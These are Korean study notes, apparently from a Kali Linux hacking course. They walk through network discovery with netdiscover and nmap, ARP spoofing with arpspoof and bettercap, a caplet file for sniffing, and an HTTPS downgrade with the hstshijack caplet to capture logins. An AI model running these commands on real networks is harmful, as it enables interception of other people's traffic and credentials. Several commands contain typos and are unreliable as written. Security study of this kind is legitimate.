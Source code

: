 
netdiscover로 우리가 접속한 네크워크를 매핑할 수 있다.
우선 칼리에서 터미널을 연다.
ifconfig를 입력하여 현재 네트워크를 확인한다.
inet 이후에 나오는 것이 ip주소이다.
현재 네트워크에 연결된 모든 기기를 확인하기 위해선 
netdiscover -r(찾는 위로 주로 액세스할 수 있는 ip주소를 입력)
ip는 192.168.136.128 이렇게 4개의 .으로 이루어지는데 
앞에 3가지는 동일네트워크. 이후 128위치에는 0~255에서 끝난다.
그래서netdiscover -r 192.168.136.1/24를 하면 전체 서브넷의 ip범위인 1.~254.까지 다 찾아준다.
마지막 자리가 0부터 시작할 수 있지만 0은 찾지 않는 이유는
0은 네트워크 자체를 나타내므로 호스트 주소로 사용되지 않고
255는 브로드캐스트 용도로 예약되어서 사용하지 않는다.
해당 클라이언트 목록이 나오면 q를 누르면 빠져나온다.

enmap의 경우는 netdiscover보다 발전된 도구로 netdiscover보다 느리지만 더 많은 정보를 보여준다.
그 포트에서 실행되고 있는 프로그램이나 운영체계 등도 알 수 있고 보안과 방화벽 우회까지 가능
enmap의 그래픽유저 프로그램인 zenmap을 터미널에서 호출하면 사용할 수 있다.
프로그램에 target란에는 ip 입력 시 스캔가능.
모든 개방된 포트를 확인하고 
타겟에는 ip를 입력하는데 특정 ip말고 주변의 모든 ip를 검색할 경우 netdiscover처럼 192.168.136.1/24를 하면 전체 다 확인할 수 있다.
바로 밑 하단에는 command란이 있다.
직접 커맨드를 입력해도 되고 커맨드를 모를 시 옆에 profile을 눌러서 기능을 사용할 수 있다.'
ping scan은 맥주소와 ip, 제조사를 보여준다.
quick scan을 하면 발견된 기기들(ip)의 개방된 포트도 보여준다.
quick scan plus는 quick scan보다 더 많은 정보를 보여준다. 운영체제는 어떤 것인지 데스크톱인지 노트북인지, 열린 포트에서 어떤 프로그램을 사용하고 버전의 정보까지.
기기가 모바일 폰이고 ios를 운영체제로 하는데 ssh를 쓰는 경우에는 탈옥한 폰으로 해당 프로그램에 ssh

ARP포이즈닝
중간자 공격으로 통신을 가로챌 수 있을 때하는 공격이다.
ARP스푸핑은 패킷 흐름을 리디렉션한다. 대상자가 액세스포인트(라우터)에 요청하여 응답받는 방식에서 내 컴퓨터를 거쳐 요청, 응답 받는 방식.
이런 공격이 가능한 이유는 ARP가 그다지 안전하지 않기 때문이다.

같은 네트워크 하에서는 ip주소를 알아야하는 것이 아니라 기기의 mac주소를 알아야 통신이 가능다.
arp 요청자가 특정 ip에 대한 정보를 요청하면 해당 ip의 기기는 자신의 ip와 mac주소로 응답하는 방식이다.
터미네이터에서
arp -a를 입력하면 arp테이블이 나온다.
gateway 뒤 ()부분은 ip, at 뒤에 나오는 부분은 mac주소다.

arpspoof 도구를 쓰면 arp스푸핑을 할 수 있다.
arp는 ip로 mac주소를 찾게 해주는(맵핑)하는 기술이다.
터미네이터에서 
arpspoof -i eth0(대상 인터페이스, 장비) -t 10. 0. 2. 7.(라우터 ip) 10. 0. 2. 1.(공격대상 ip)
동시에 터미네이터를 스플릿(분리)해서 
arpspoof -i eth0(대상 인터페이스, 장비) -t 10. 0. 2. 1.(공격대상 ip) 10. 0. 2. 7.(라우터 ip)
두 커맨드를 친다.
즉 라우터에게는 내가 공격대상 ip라고 알리고, 공격대상에게는 내가 라우터 ip라고 알라는 것임.
해당 공격은 이더넷, wi-fi와 무선네트워트에서 통한다.
하지만 공격대상에서 라우터가 아닌 내게 패킷을 보내면 리눅스 보안으로 자동으로 중단 시킴.
이를 위해서는 패킷을 통과시켜주는 포트 포워딩을 활성화해야한다.
터미네이터에서
echo 1 > /proc/sys/net/ipv4/ip_forward 커맨드를 입력해줘야한다.

arp스푸핑에서 한단계 발전한 것이 bettercap이다.
bettercap은 데이터 캡처, 사용자 이름, 패스워드를 중간에서 가로챌 수 있다.
터미네이터에서 bettercap --help 커맨드 시 도움말 전체를 볼 수잇다.
bettercap -iface eth0(대상인터페이스) 커맨드시 bettercap을 통한 스푸핑이 된다.
인터페이스는 ifconfig 커맨드 시 확인 가능.
bettercap 실행되면 아래에 모듈 창이 있고 실행 중인 bettercap 도구들을 볼 수 있다.
events.stream은 정상적으로 도구들이 실행되고 있음을 보여주는 상태임
모듈에 기능을 알고 싶으면 해당 상태에서 help net.probe(net.probe의 도움말을 보여줌)
net.probe는 udp패킷을 계속 전송, 동일 네트워크에 있는 기기를 확인.
on/off 모드가 있음.
이후 help를 치면 도움말도 나오지만 아래에 활성화 중인 모듈들도 볼 수 있음.
net.probe 활성화 시 net.recon도 자동활성화 되는데 net.recon은 arp캐시를 모니터링해서 probe가 주변 기기를 찾는데 보넨 요청에 응답을 탐지하고 탐지된 ip들을 리스트화 한다.
리스트된 것들을 보기위해서는 net.show라고 커맨드하면 연결된 클라이언트 모두 볼 수 있다.
ip, mac주소, 제조사 등

beetercap으로 arp스푸핑하는 법
arp.spoof. on 을 커맨드하면 모듈 작동이된다.
help arp.spoof를 커맨드하면 도움말이 나오는데 아래에 parameters를 보면 모듈에 대해 설정할 수 있는 옵션이 나온다.
파라미터에 있는 모듈 값 변경은
Set 커맨드를 치면된다.
ex) set arp.spoof.fullduplex. ture(평소에는 false 모드)
fullduplex 기능을 사용하면 라우터와 공격대상 기기 사이에 내 기기가 모든 데이터를 스푸핑할 수 있게됨.
스푸핑한 데이터는 분석 가능한데 bettercap에서는 net.sniff라는 모듈로 가능.
bettercap 작동 하에서 net.sniff on 커맨드 시 캡처한 것들은 분석해줌.

이 모든 작업이 귀찮을 경우 캐플릿을 이용하면 된다.
캐플릿은 텍스트 파일로 만들 수 있다.
net.probe.on (해당 네트워크, 라우터에 관련된 모든 클라이언트를 보여준다.)
set arp.spoof.fullduplex true (대상 클라이언트와 라우터 양 쪽에 내 ip로 송수신 받는 곳을 위장)
set arp.spoof.targets 192. 10. 2. 117(대상 클라이언트 ip를 지정함. 다수 클라이언트 대상일 경우 첫 ip주소 다음에 , 하고 입력)
arp spoof. on(spoof를 작동)
net.sniff on(대상 클라이언트와 라우터 사이에 데이터를 스니핑함)
해당 파일을 root 디렉터리에 넣고 spoof.cap으로 저장해줌.
터미네이터에서 
pwd 커맨드
최상위 root 디렉터리로 간다
ls를 커맨드하면 
현재 root 디렉터리 하에 모든 파일, 폴더를 보여준다.
여기에 spoof.cap이 있음을 확인.
이후 bettercap을 실행, 아래 커맨
bettercap -iface eth0(타겟 네트워크에 연결된 인터페이스를 지정) -caplet /root/spoof.cap(캐필릿용 파일명과 디렉터리을 입력)
이 방법은 http 하에서만 가능. https에서는 안된다.

https를 우회하는 법
https는 tls, ssl로 보안처리되어 있기에 우회는 법은 https를 http로 다운그레이트 시키는 방법이다.
bettercap을 통해 중간에서 arp를 spoof 했기에 대상이 https를 요청해도 나는 https가 아닌 http를 제공하여 대상이 http로 다시금 요청하게 한다.
bettercap에서는 해당 기능의 캐플릿도 있다.
이전에 만든 캐플릿 텍스트 파일을 수정.

net.probe.on (해당 네트워크, 라우터에 관련된 모든 클라이언트를 보여준다.)
set arp.spoof.fullduplex true (대상 클라이언트와 라우터 양 쪽에 내 ip로 송수신 받는 곳을 위장)
set arp.spoof.targets 192. 10. 2. 117(대상 클라이언트 ip를 지정함. 다수 클라이언트 대상일 경우 첫 ip주소 다음에 , 하고 입력)
arp spoof. on(spoof를 작동)
set net.sniff.local true(해당 데이터가 로컬데이터라고 생각되어도 bettercap에서 모든 데이터 스니핑하도록 지시, 즉 클라이언트가 https로 보내려하면 bettercap이 tls연결을 가로챈 뒤 자체 종료시키고 bettercap서버에서 제공하는 가짜 https링크로 변)
net.sniff on(대상 클라이언트와 라우터 사이에 데이터를 스니핑함)

위 수정된 캐플릿 텍스트파일에
bettercap -iface eth0(타겟 네트워크에 연결된 인터페이스를 지정) -caplet /root/spoof.cap(캐필릿용 파일명과 디렉터리을 입력)
입력 후 help를 커맨드하면 정상 작동하는지 알 수 있다.
하지만 https가 아닌 http로 다운그레이드 시킨 것들의 정보를 가져오려면 hst바이패스 캐플릿이 필요.
여기서 caplets.show 커맨드를 입력
다양한 캐플릿들 도구들이 나오는데 이때 
hstshijack/hstshijack 를 사용해야하므로 
해당 네임인 hstshijack/hstshijack 직접 타이핑 혹은 h를 치고 tab을 눌러 자동완성을 하여 실행
왠만한 사이트는 되지만 페이스북 같은 개인정보가 중요한 곳은 hst로 우회한다.






